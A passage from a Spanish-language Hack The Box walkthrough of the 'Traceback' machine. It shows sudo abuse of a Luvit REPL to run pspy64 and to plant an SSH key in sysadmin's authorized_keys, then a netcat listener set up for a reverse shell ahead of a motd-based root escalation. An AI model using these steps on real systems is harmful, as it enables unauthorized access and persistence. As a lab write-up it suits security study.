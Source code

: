 ```bash
webadmin@traceback:~$ chmod +x pspy64
```

Ejecutamos el script `pspy64` desde el usuario de sysadmin, para lo cual debemos ejecutar el siguiente comando de la consola de LUA 

```bash
webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit                           
Welcome to the Luvit repl!          
> os.execute("./pspy64")                                                                                                               
Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events 
```

Revisando la herramienta `pspy64` observamos que hay un archivo en `/etc/update-motd.d/` que se ejecuta de manera recurrente. 

```bash
2020/06/04 17:40:31 CMD: UID=0    PID=2099   | /bin/cp /var/backups/.update-motd.d/00-header /var/backups/.update-motd.d/10-help-text /var/backups/.update-motd.d/50-motd-news /var/backups/.update-motd.d/80-esm /var/backups/.update-motd.d/91-release-upgrade /etc/update-motd.d/
```

Al igual que hicimos con el usuario webadmin, vamos a poner la llave ssh en el directorio de llaves autorizadas del usuario sysadmin mediante el siguiente comando

```bash
webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit
Welcome to the Luvit repl!
> os.execute("echo '<llave-rsa>' > /home/sysadmin/.ssh/authorized_keys") 
true    'exit'  0
```

Nos conectamos por SSH con el usuario `sysadmin`

```bash
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Traceback]
└──╼ #ssh -i ssh-keys sysadmin@traceback.htb

#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################
Enter passphrase for key 'ssh-keys': 

Welcome to Xh4H land 

Last login: Mon Mar 16 03:50:24 2020 from 10.10.14.2
$ whoami
sysadmin
```

Antes de modificar el archivo `00-header`para escalar privilegios, creamos una sesión con netcat en el puerto 4444 

```bash
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Traceback]
└──╼ #nc -lvp 444

listening on [any] 4444 ...
```
